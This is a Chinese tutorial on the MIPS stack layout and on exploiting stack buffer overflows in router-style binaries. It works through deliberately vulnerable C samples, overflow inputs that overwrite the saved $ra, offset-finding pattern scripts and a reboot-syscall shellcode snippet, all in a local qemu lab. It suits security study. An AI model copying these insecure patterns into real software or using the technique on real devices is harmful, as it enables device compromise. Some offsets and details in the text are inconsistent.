# 路由器溢出漏洞

缓冲区溢出漏洞是路由器研究的核心内容之一；

## MIPS堆栈原理

和x86架构有相似的地方，但是也有很大的区别。

### MIPS32与X86的对比

大多数Linux嵌入式操作系统的路由器使用MIPS指令系统，该指令系统属于精简指令系统，这里列出其在函数调用上与x86的一些相似和区别；

- 栈操作
  - 栈与x86一样是向低地址增长的；
  - 没有EBP指针（有`$FP`寄存器，不太有用），这就导致调用函数或者返回时，需要指定偏移量，将当前栈指针向下移动`n bit`，开辟出的空间就是调用函数的栈帧区域，此后栈指针就不能移动了（否则现场恢复不了）；
- 参数传递
  - 前4个参数通过寄存器`$a0~$a3`传递，超过四个参数的时候，多余参数被放入调用函数的空间；
- 返回地址
  - x86使用call时会将当前执行为之压入堆栈保存，MIPS则将返回地址存入$RA寄存器中，而不是放在堆栈中；

### 函数调用的栈布局

#### 有关概念

- 叶子函数
- 非叶子函数

如果一个函数A中不再调用其他任何函数，那么当前的函数A就是一个叶子函数，否则则为一个非叶子函数。

数据结构里树结构的理解方式。

#### 函数调用过程

当函数A调用函数B时，具体的调用步骤如下：

1. 调用

- 函数调用指令复制当前的`$PC`寄存器的值到`$RA`寄存器，即保存了当前函数执行结束的返回地址到`$RA`寄存器，然后跳转到函数B并执行；

2. 跳转

- 如果函数B是非叶子函数，即函数B会调用其他函数，则函数B会把返回地址存入栈中，这是为了函数B在调用其他函数的时候，即使改变了`$RA`寄存器的值，仍然可以通过保存在栈中的返回地址找到返回函数A的“路”。注意：调用的时候已经将该地址放到了`$RA`中，但是函数B调用其他函数的时候，`$RA`被修改；
- 如果函数B是叶子函数，即函数B不会调用其他函数，则不做操作；

3. 返回

- 如果函数B是非叶子函数，会先取出保存在栈中的返回地址，然后将返回地址存入`$RA`寄存器，再使用`jr $RA`返回到函数A中继续执行；
- 如果函数B是叶子函数，直接使用`jr $RA`返回到函数A中继续执行；

#### 函数调用参数传递

上文有提到，MIPS架构通过寄存器`$a0~$a3`进行调用时传递前4个参数，而其余的参数通过栈来传递，栈布局如图所示：



可以观察到在指定大小偏移后，栈顶指针sp移位，逻辑上开辟了供函数B使用的栈空间。

#### sample演示

为了更好地理解，通过一个sample来演示其过程和布局；

```c
// func_arg.c
#include <stdio.h>
int arg(int a, int b, int c, int d, char e){
    printf("%d %d %d %d %c\n", a, b, c, d, e);
}

void main(){
    int a = 1;
    int b = 2;
    int c = 3;
    int d = 4;
    char e = 'a';
    arg(a, b, c, d, e);
    return ;
}
```

编译；

```
mips-gcc --static -g func_arg.c -o func_arg
```

查看编译出来的可执行文件func_arg的文件属性，并放到ida中分析；

```
$ file func_arg
func_arg: ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, not stripped
```

这里就直接使用下列命令进行远程调试了；

```
qemu-mips-static -g 6666 func_arg
```

在IDA中配置号相应的调试选项，并在main开始处设置断点，`attach process`后选择继续即可来到断点处；



<div align="center">设置断点</div>



<div align="center">attach process后选择继续，这里关注三个窗口的信息</div>

在断点时`$RA`寄存器的值为

```
$RA -> 00402830(__uClibc_main+348)
```


为main函数开辟了0x40的栈空间

```
addiu   $sp, -0x40
```

由于main函数并非叶子函数，因此将`$RA`的值存放到栈中，下面的`0x40+var_4($sp)`表示了虚拟地址`0x76FFEEAC`，该指令执行完毕后，可以在栈上看到存储的值；

```
sw      $ra, 0x40+var_4($sp)
```



<div align="center">$RA寄存器的值，即返回地址，被存放在栈上</div>

接着是将`$FP`寄存器的值压栈，不过可以看到在MIPS架构中，这个类似于x86的EBP指针功能的寄存器并不起很大作用，这里很明显是以`$sp`寻址，在上上图中可以看到`$FP`的值为0；

```
sw      $fp, 0x40+var_8($sp)
```

将`$sp`赋值给`$fp`；

```
move    $fp, $sp
```



<div align="center">$FP的值被修改为当前栈顶$sp</div>

将当前的全局指针$gp的值入栈；

```
sw      $gp, 0x40+var_28($sp)
```

接下来就是对声明变量的赋值操作；

```
.text:004003C4 li      $v0, 1
.text:004003C8 sw      $v0, 0x40+var_10($fp)
.text:004003CC li      $v0, 2
.text:004003D0 sw      $v0, 0x40+var_14($fp)
.text:004003D4 li      $v0, 3
.text:004003D8 sw      $v0, 0x40+var_18($fp)
.text:004003DC li      $v0, 4
.text:004003E0 sw      $v0, 0x40+var_1C($fp)
.text:004003E4 li      $v0, 0x61  # 'a'
.text:004003E8 sb      $v0, 0x40+var_20($fp)
```

对于上面的汇编操作：

- `li`命令将值赋值给寄存器；

- 对于`int`整型变量，使用`sw`命令将寄存器`$v0`的一个字（四个字节）入栈；
- 对于`char`字符变量，使用`sb`命令将寄存器`$v0`的一个字节入栈；

这些操作结束后，栈上应有如下布局：



<div align="center">变量在栈上的布局</div>

接下来就是对`arg`函数的调用了，在调用前，汇编中还出现了一切“奇怪”的指令；

```
.text:004003EC lb      $v0, 0x40+var_20($fp)
.text:004003F4 sw      $v0, 0x40+var_30($sp)
.text:004003F8 lw      $a0, 0x40+var_10($fp)
.text:004003FC lw      $a1, 0x40+var_14($fp)
.text:00400400 lw      $a2, 0x40+var_18($fp)
.text:00400404 lw      $a3, 0x40+var_1C($fp)
```

其实这正是在传递`arg`函数调用的参数；

由于调用的参数共有5个（a, b, c, d, e），因此用于传参的寄存器`$a0~$a3`并不够用，所以最后一个参数(char e)应当通过栈传参，而根据调用约定，参数自后向前传递，因此第一个存储的参数为e，它将被存放到栈上。

汇编代码指令`lb`用于从先前参数e存放的位置读取一个字节（'a', 0x61）到临时寄存器`$v0`，再调用`sw`将`$v0`的值（'a', 0x61）存放到指定的栈地址上；

其他的参数存放到`$a0~$a3`寄存器中；

最后将有如下的寄存器和栈布局；



<div align="center">寄存器</div>



<div align="center">main函数的栈帧布局</div>

接下来就是对`arg`函数的调用；

```
.text:00400408 la      $t9, arg
.text:0040040C nop
.text:00400410 jalr    $t9 ; arg
```

将`arg`函数的地址存放到`$t9`寄存器中，并通过`jalr`跳转命令跳转到`arg`函数地址，这里带有的附加操作是更新`$RA`寄存器的值为`$PC`寄存器的值，言外之意就是保存返回地址到`$RA`寄存器；

在调试的时候注意，运行到`jalr`指令是应当使用`F7`步入执行，而不是`F8`；



<div align="center">$RA寄存器的值被更新</div>

进入到`arg`函数后，首先会先对全局指针寄存器`$gp`进行设置；

```
.text:00400310 li      $gp, 0x4DAA0
.text:00400318 addu    $gp, $t9
```

接下来开辟栈空间；

```
.text:0040031C addiu   $sp, -0x30
```

由于`arg`并非是叶子函数，它还调用了`printf`函数，所以需要存储`$RA`寄存器的值到栈上，并对`$fp`寄存器进行入栈和更新；

```
.text:00400320 sw      $ra, 0x30+var_4($sp)
.text:00400324 sw      $fp, 0x30+var_8($sp)
.text:00400328 move    $fp, $sp
```

接着存储一系列寄存器的值到栈上；

```
.text:0040032C sw      $gp, 0x30+var_18($sp)
.text:00400330 sw      $a0, 0x30+arg_0($fp)
.text:00400334 sw      $a1, 0x30+arg_4($fp)
.text:00400338 sw      $a2, 0x30+arg_8($fp)
.text:0040033C sw      $a3, 0x30+arg_C($fp)
```

进行读写寄存器和地址的操作；

```
.text:00400340 lw      $v0, 0x30+arg_10($fp)
.text:00400348 sb      $v0, 0x30+var_10($fp)
.text:0040034C lb      $v1, 0x30+var_10($fp)
.text:00400350 lw      $v0, 0x30+arg_C($fp)
```

接着给`printf`传参并调用；

```
.text:0040036C lw      $a1, 0x30+arg_0($fp)
.text:00400370 lw      $a2, 0x30+arg_4($fp)
.text:00400374 lw      $a3, 0x30+arg_8($fp)
.text:00400378 la      $t9, printf
.text:0040037C nop
.text:00400380 jalr    $t9 ; printf
```

在调用完`printf`后，进行函数返回时有如下汇编指令；

```
.text:00400388 lw      $gp, 0x30+var_18($fp)
.text:0040038C move    $sp, $fp
.text:00400390 lw      $ra, 0x30+var_4($sp)
.text:00400394 lw      $fp, 0x30+var_8($sp)
.text:00400398 addiu   $sp, 0x30
.text:0040039C jr      $ra
```

首先是对`$gp`的恢复，其次是对`$sp`的恢复，接着是对`$ra`返回地址的恢复，其次是对`$fp`的恢复，最后在逻辑上清空`arg`的栈空间，并跳转到返回地址，继续执行；

返回到`main`函数之后，有如下的汇编指令；

```
.text:00400418 lw      $gp, 0x40+var_28($fp)
.text:0040041C move    $sp, $fp
.text:00400420 lw      $ra, 0x40+var_4($sp)
.text:00400424 lw      $fp, 0x40+var_8($sp)
.text:00400428 addiu   $sp, 0x40
.text:0040042C jr      $ra
```

类似的，进行寄存器的恢复，最后跳转到`__uClibc_main`函数上，执行`exit`函数；

```
.text:00402830 lw      $gp, 0xB0+var_A0($sp)
.text:00402834 nop
.text:00402838 la      $t9, exit
.text:0040283C nop
.text:00402840 jalr    $t9 ; exit
```

## MIPS下缓冲区溢出利用

经过上面的学习可以知道，返回地址是存放在`$RA`寄存器中，关键的地方在于非叶子函数对返回地址的保护（返回地址入栈），而叶子函数则不做保护；

那么如何针对这些特性来利用缓冲区的溢出呢？这里需要就函数是否为叶子函数分开讨论。

### 非叶子函数

非叶子函数将`$RA`寄存器中的返回地址入栈，调用其他函数时`$RA`寄存器被改变，当这个非叶子函数返回时，入栈的返回地址赋值给`$RA`寄存器，实现函数返回。

下面是先前sample演示所涉及的一段函数返回的汇编代码；

```
.text:00400388 lw      $gp, 0x30+var_18($fp)
.text:0040038C move    $sp, $fp
.text:00400390 lw      $ra, 0x30+var_4($sp)
.text:00400394 lw      $fp, 0x30+var_8($sp)
.text:00400398 addiu   $sp, 0x30
.text:0040039C jr      $ra
```

可以看到`lw $ra, 0x30+var_4($sp)`将原先保存在栈中的返回地址赋值给了`$RA`寄存器，而后的`jr $RA`实现了跳转。由此可以想到，如果利用缓冲区溢出，将该栈地址覆盖为其他地址，即可修改程序的执行流；

为了方便演示，这里使用一个新的sample；

```c
// vuln.c
#include <stdio.h>
void has_stack(char *src){
	char dst[20] = {0};
	strcpy(dst, src);		// function calls
}

void main(){
    const static int value = 10;
    char src[100] = {0};
	gets(src);
    has_stack(src);
}
```

这里的`has_stack`函数是一个非叶子函数，存在明显的缓冲区溢出漏洞，并且按照正常的逻辑`if`条件判断中的`printf`不会执行；

经过下面命令编译：

```
mips-gcc -static -g vuln.c -o vuln
```

把生成的可执行文件放到IDA中分析，并使用下面的命令进行远程调试；

```
qemu-mips-static -g 6666 vuln
```

这里输入了`123456`进行测试，可以观察到如下情况；



<div align="center">缓冲区到返回地址</div>

上图是已经恢复了`$RA`寄存器后的截图，可以看到输入的位置距离返回地址的距离为：
$$
0x76ffedc-0x76ffede0=0x1C
$$
当缓冲区输入了0x18个字节后，再输入对应的其他函数地址即可控制执行流；

### 叶子函数

针对叶子函数，有另一个sample；

```c
#include <stdio.h>
void no_stack(char *src, int count){
	char dst[20] = {0};
	int i = 0;
	for(i = 0; i < count; i++)
		dst[i] = src[i];
}

void main(){
	char s[100] = {0};
	int count = strlen(s);
	no_stack(s, count);
}
```

可以看到，`no_stack`函数是一个叶子函数，叶子函数不会把寄存器`$RA`的值保存在栈中，这种情况要如何去修改返回地址呢？

如果缓冲区足够大，还是可以修改main()函数栈空间中存放的上层函数的返回地址的；

### 实验

vuln_system漏洞程序的源码：

```c
// vuln_system.c
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>

void do_system(int code, char *cmd){
	char buf[255];
	// sleep(1);
	system(cmd);
}

void main(){
	char buf[256] = {0};
	char ch;
	int count = 0;
	unsigned int fileLen = 0;
	struct stat fileData;
	FILE *fp;
	if(stat("passwd", &fileData) == 0)
		fileLen = fileData.st_size;
	else
		return 1;
	if((fp = fopen("passwd", "rb")) == NULL){
		printf("Cannot open file passwd!\n");
        exit(1);
	}
    ch = fgetc(fp);
    while(count <= fileLen){
        buf[count++] = ch;
        ch = fgetc(fp);
    }
    buf[--count] = '\x00';

    if(!strcmp(buf, "adminpwd")){
        do_system(count, "ls -l");
    }
    else{
        printf("Invalid Password!\n");
    }
    fclose(fp);
}
```

上述代码模拟了一个密码获取执行命令的功能，从文件passwd中读取的内容如果为`admin`则有权限执行`ls -l`列出当前目录，否则提示密码错误；

编译一下：

```
mips-gcc -static -g vuln_system.c -o vuln_system
```

在同目录中创建passwd；

```
python -c "print 'a'*500" > passwd
```

尝试运行；

```
./vuln_system
```

将得到下面的结果：


下断点，这里断点下在了`do_system`之前，然后用下面的命令去attach程序；

```
qemu-mips-static -g 6666 vuln_system
```

运行到断点处，可以看到passwd中的内容已经在栈中。



由于缓冲区溢出，导致原先的`$RA`被覆盖为`0x61616161`，因此在返回时报错。


可以看到，在下面代码中，fp的内容被输入到buf缓冲区中；

```c
    ch = fgetc(fp);
    while(count <= fileLen){
        buf[count++] = ch;
        ch = fgetc(fp);
    }
```

调试分析汇编代码：

1. Basic Block 1

   ```nasm
   .text:00400368 li      $gp, 0x4CF98							# 将0x4CF98存入寄存器$gp
   .text:00400370 addu    $gp, $t9								# $gp与$t9的值相加，结果存放在$gp中，为0x0044D300
   															# $t9存放的是main的起始地址，也就是0x00400368
   .text:00400374 addiu   $sp, -0x1E0      					# 申请栈空间，调试中$sp更新后为0x76FFEC90
   .text:00400378 sw      $ra, 0x1E0+ra_offset($sp)			# 调试时，保存$ra寄存器中的返回地址0x00402FD0到																	# 0x76FFEE6C									
   .text:0040037C sw      $fp, 0x1E0+fp_offset($sp)			# 保存$fp寄存器中的栈帧地址0到0x76FFEE68
   .text:00400380 move    $fp, $sp								# 更新栈帧地址为$sp寄存器，操作后$fp的值为0x76FFEC90
   .text:00400384 sw      $gp, 0x1E0+gp_offset($sp)			# 保存$gp寄存器中的全局地址指针0x0044D300到																	# 0x76FFECA0
   .text:00400388 addiu   $v0, $fp, 0x1E0+var_1B3				# $v0保存$fp+0x1E0+var_1B3的结果，$v0为0x76FFECBD
   .text:0040038C li      $v1, 0x100							# 将0x100存入寄存器$v1
   .text:00400390 move    $a0, $v0								# 更新$a0寄存器的值为$v0，即0x76FFECBD，该地址代表buf
   .text:00400394 move    $a1, $zero							# 更新$a1寄存器的值为0
   .text:00400398 move    $a2, $v1								# 更新$a2寄存器的值为$v1，即0x100
   .text:0040039C la      $t9, memset							# 更新$t9寄存器的值为memset函数的地址
   .text:004003A0 nop											# nop空指令
   .text:004003A4 jalr    $t9 ; memset							# 跳转到$t9寄存器所存地址，即memset函数所在地址
   .text:004003A8 nop											# nop空指令
   .text:004003AC lw      $gp, 0x1E0+gp_offset($fp)			# 存储0x1E0+gp_offset($fp)代表的地址0x76FFECA0的内															 # 容0x0044D300到$gp寄存器
   .text:004003B0 sw      $zero, 0x1E0+var_1B8($fp)			# count，更新0x1E0+var_1B8($fp)代表的地址																	# 0x76FFECB8为0
   .text:004003B4 sw      $zero, 0x1E0+var_1BC($fp)			# fileLen，更新0x1E0+var_1BC($fp)代表的地址																	# 0x76FFECB4为0
   .text:004003B8 addiu   $v1, $fp, 0x1E0+var_B0				# 更新$v1的值为$fp+0x1E0+var_B0，为0x76FFEDC0
   .text:004003BC la      $v0, 0x400000						# 更新$v0的值为0x400000
   .text:004003C0 nop											# nop空指令
   .text:004003C4 addiu   $a0, $v0, (aPasswd - 0x400000)  		# 更新$a0为"passwd"字符串的地址
   .text:004003C8 move    $a1, $v1								# 更新$a1为$v1的值，即0x76FFEDC0
   .text:004003CC la      $t9, stat							# 更新$t9为stat函数的地址
   .text:004003D0 nop
   .text:004003D4 jalr    $t9 ; stat							# 调用跳转
   .text:004003D8 nop
   .text:004003DC lw      $gp, 0x1E0+gp_offset($fp)			# 存储0x1E0+gp_offset($fp)代表的地址0x76FFECA0的内															 # 容0x0044D300到$gp寄存器
   .text:004003E0 bnez    $v0, loc_400714						# 如果寄存器$v0中所存的返回值不等于0，则跳转到0x400714
   .text:004003E4 nop
   ```

   以上的代码是下列代码的汇编表现：

   ```c
   	char buf[256] = {0};
   	char ch;
   	int count = 0;
   	unsigned int fileLen = 0;
   	struct stat fileData;
   	FILE *fp;
   	if(stat("passwd", &fileData) == 0)
           [TO DO];
       else
           [jump to]return 1;
   ```

   在满足跳转条件后，会跳转到`return 1`；

2. Basic Block 2

   ```asm
   .text:004003E8 lw      $v0, 0x1E0+var_7C($fp)			# 259 -> v0
   .text:004003EC nop
   .text:004003F0 sw      $v0, 0x1E0+var_1BC($fp)			# v0 -> fileLen，即fileLen被赋值为259
   .text:004003F4 la      $v0, 0x400000
   .text:004003F8 nop
   .text:004003FC addiu   $a0, $v0, (aPasswd - 0x400000)   # "passwd"，第一个参数
   .text:00400400 la      $v0, 0x400000
   .text:00400404 nop
   .text:00400408 addiu   $a1, $v0, (aRb - 0x400000)       # "rb"，第二个参数
   .text:0040040C la      $t9, fopen						# 调用fopen函数
   .text:00400410 nop
   .text:00400414 jalr    $t9 ; fopen						# 跳转
   .text:00400418 nop
   .text:0040041C lw      $gp, 0x1E0+gp_offset($fp)		# 0x1E0+gp_offset($fp) -> $gp
   .text:00400420 sw      $v0, 0x1E0+var_1C0($fp)			# $v0 -> 0x1E0+var_1C0($fp)
   .text:00400424 lw      $v0, 0x1E0+var_1C0($fp)			# 0x1E0+var_1C0($fp) -> $v0
   .text:00400428 nop
   .text:0040042C bnez    $v0, loc_400468					# 如果寄存器$v0中所存的返回值不等于0,则跳转到0x400468
   .text:00400430 nop
   ```

   以上的代码是下列代码的汇编表现：

   ```c
   	fileLen = fileData.st_size;
   	...
   	if((fp = fopen("passwd", "rb")) == NULL){
   		[TO DO];
   	}
   ```

   在满足条件时就会跳转，如果未满足条件，则执行了`print`和`exit`，程序退出；

   ```asm
   .text:00400434 la      $v0, 0x400000
   .text:00400438 nop
   .text:0040043C addiu   $a0, $v0, (aCannotOpenFile - 0x400000)  # "Cannot open file passwd!"
   .text:00400440 la      $t9, puts
   .text:00400444 nop
   .text:00400448 jalr    $t9 ; puts
   .text:0040044C nop
   .text:00400450 lw      $gp, 0x1E0+gp_offset($fp)
   .text:00400454 li      $a0, 1
   .text:00400458 la      $t9, exit
   .text:0040045C nop
   .text:00400460 jalr    $t9 ; exit
   .text:00400464 nop
   ```

​	由于可以成功打开passwd文件，因此$v0的值最终为0，程序并不会走到这个分支；

3. Basic Block 3

   ```asm
   .text:00400468 lw      $v0, 0x1E0+file_discription_offset($fp)	# 0x1E0+file_discription_offset($fp) -> $v0
   .text:0040046C nop
   .text:00400470 sw      $v0, 0x1E0+var_1C4($fp)					# $v0 -> 0x1E0+var_1C4($fp)
   .text:00400474 lw      $v0, 0x1E0+var_1C4($fp)					# 0x1E0+var_1C4($fp) -> $v0
   .text:00400478 nop
   .text:0040047C lw      $v0, 0x34($v0)							# ($v0+0x34) -> $v0，0x1E0+var_1C4($fp)+0x34
   .text:00400480 nop
   .text:00400484 beqz    $v0, loc_400518							# if $v0 == 0, jump to 0x400518
   .text:00400488 nop
   ```

   在调试时，0x1E0+var_1C4($fp)+0x34保存的内容为0x2，因此不满足跳转条件；

4. Basic Block 4

   ```asm
   .text:0040048C lw      $v0, 0x1E0+var_1C4($fp)					# 0x1E0+var_1C4($fp) -> $v0
   .text:00400490 nop
   .text:00400494 lw      $v1, 0x10($v0)							# ($v0+0x10) -> $v1
   .text:00400498 lw      $v0, 0x1E0+var_1C4($fp)					# 0x1E0+var_1C4($fp) -> $v0
   .text:0040049C nop
   .text:004004A0 lw      $v0, 0x18($v0)							# ($v0+0x18) -> $v0
   .text:004004A4 nop
   .text:004004A8 sltu    $v0, $v1, $v0							# 
   .text:004004AC beqz    $v0, loc_4004E8
   .text:004004B0
   ```


至此分析了前四个Basic Block，这里不再赘述。

在进入读取文件循环后，有如下情形：



<div align="center">可以看到0x76FFECB4所存变量为fileLen，而0x76FFECB8为count，而0x76FFECBC则为buf</div>

通过查看程序恢复$ra的位置来确定passwd数据需要覆盖的位置。



<div align="center">查看后得到的结果是0x76FFEE6C</div>

所覆盖的地址减去buf所在地址，即`0x76FFEE6C-0x76FFECBC=0x1B0`

因此接下来尝试将passwd修改为：

```
python -c "print 'a' * 0x1AC + 'bbbb' + 'cccc'" > passwd
```

```
$ cat passwd 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbcccc
```

并重新执行程序尝试。





可以看到要进行lw $ra的地址被数据覆盖了，但是不知道为什么在buf的开头出现了一个'c'，导致偏移多了1 byte。

最终再执行跳转时发生报错。






### 实践

#### 漏洞攻击组成部分

通常情况下需要布置缓冲区的shellocde，会使用NOP区及其覆盖在NOP区后面的shellcode，这样可以给跳转指令一个较大的容错空间。

- NOP Sled

  有一个致命:broken_heart:的问题是，在MIPS中NOP指令的机器码是`0x00000000`，如果使用NOP实现跳转缓冲会影响以`0x00`阶段的字符串复制函数(strcpy..)。在宏观定义上，其实一切的不影响shellode执行的指令都可以作为NOP Sled的组成成员进行缓冲区填充。

- ROP Chain

  拼接gadget，这些gadget一般是一个预先准备好的、包含各条指令结束后下一条指令的地址的特殊返回栈。

- Shellcode

  执行一定功能的机器代码。

  例如下列的汇编代码，可以实现关机的功能：

  ```c
  void main(){
  	__asm__(
  		"movl $0x4321FEDC, %edx;\
  		movl $85072278, %ecx;\
  		movl $0xFEE1DEAD, %ebx;\
  		int $0x80"
  	);
  }
  ```

#### 漏洞利用开发过程

1. 劫持PC，即触发缓冲区溢出

2. 确定偏移

   - 大型字符脚本，任取连续4位，保证这个值在整个集合中时唯一的，这样才方便定位。

     ```python
     # patternLocOffset.py
     # coding:utf-8
     import sys
     import time
     
     # 字符集
     str1 = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
     str2 = "abcdefghijklmnopqrstuvwxyz"
     str3 = "0123456789"
     
     # 执行生成的长度count，输出文件output
     def create(count, output):
         code = ''
         print('[*] Create pattern string cotains %d characters' % count)
         start_time = time.time()
         for i in range(0, count):
             code += str1[i/(26*10)] + str2[i%(26*10)/10] + str3[i%(26*10)%10]
         print('[+] pattern string is created successfully!')
         if output:
             print('[*] output to %s' % output)
             fw = open(output, 'w')
             fw.write(code)
             fw.close()
             print('[+] output file successfully!')
         else:
             return code
         print("[+] take time: %.4f s" % (time.time() - start_time))
         
     if __name__ == '__main__':
         try:
         	count = int(sys.argv[1])
         	output = sys.argv[2]
         	create(count, output)
         except:
             print("error!")
             exit()
     ```

     执行

     ```
      python patternLocOffset.py 600 passwd
     ```

     即可生成：

     ```
     $ cat passwd
     Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3(...)
     ```

     程序加载这个文件后产生报错，查看报错的位置为加载了地址0x33416F34，即：3Ao4。
     使用下面的脚本，在文件中搜索3Ao4的位置。

     ```python
     #coding:utf-8
     import sys
     import time
     
     def findstr(Input, pattern):
         print("[*] start to search...")
         with open(Input, 'r') as f:
             content = f.read()
         idx = content.find(pattern)
         print("[+] offset is %d" % idx)
     
     if __name__ == '__main__':
         try:
         	start_time = time.time()
         	findstr(sys.argv[1], sys.argv[2])
     	print("[+] take time %.7f s" % (time.time()-start_time))
         except:
             print("error!")
             exit()
     ```

     搜索后可以得到如下结果：

     ```
     $ python findindex.py passwd 3Ao4
     [*] start to search...
     [+] offset is 431
     [+] take time 0.0000639 s
     ```

     可以看到结果为431，这说明在该字符串前共有431个字符；

     利用这个数据继续填充passwd进行测试；

     ```
     python -c "print 'a' * 431 + 'bbbb' + 'cccc'">passwd
     ```

     照样执行后，可以看到报错的位置：

     

   - 另一种方法则是通过栈帧分析，例如上面实验所用的`buf-$ra`的方法。

